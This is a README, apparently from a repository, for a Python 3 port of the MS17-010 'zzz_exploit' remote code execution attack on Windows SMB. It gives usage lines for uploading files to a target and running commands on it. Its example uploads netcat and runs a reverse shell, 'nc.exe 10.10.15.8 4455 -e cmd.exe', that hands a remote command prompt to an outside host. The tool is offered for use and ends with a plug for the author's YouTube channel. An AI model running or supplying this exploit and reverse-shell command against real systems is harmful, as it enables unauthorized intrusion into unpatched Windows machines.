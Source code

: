 This is a python3 implementation from the zzz_exploit. (https://github.com/worawit/MS17-010)

Original exploit was based on eternal sinergy and eternal champion. This is a partially translation to python3, with the "mysmb.py" included.

Tested in windows 7 and windows server 2003. Other Operative Systems may require to finish the translation to python3.

usage: 
   python3 eternal.py -i <remote ip> -t <file to transfer> -o <output file name>
   python3 eternal.py -i <remote ip> -c <rce to execute>

 NOTE: files transfered will appear inside remote host like c:\<output file name>

example usage: python3 eternal.py -i 10.10.10.40 -t nc.exe -o nc.exe -c 'c:/nc.exe 10.10.15.8 4455 -e cmd.exe'

If this exploit was usefull to you remember to subscribe to my youtube channel -> https://www.youtube.com/@artes_oscuras
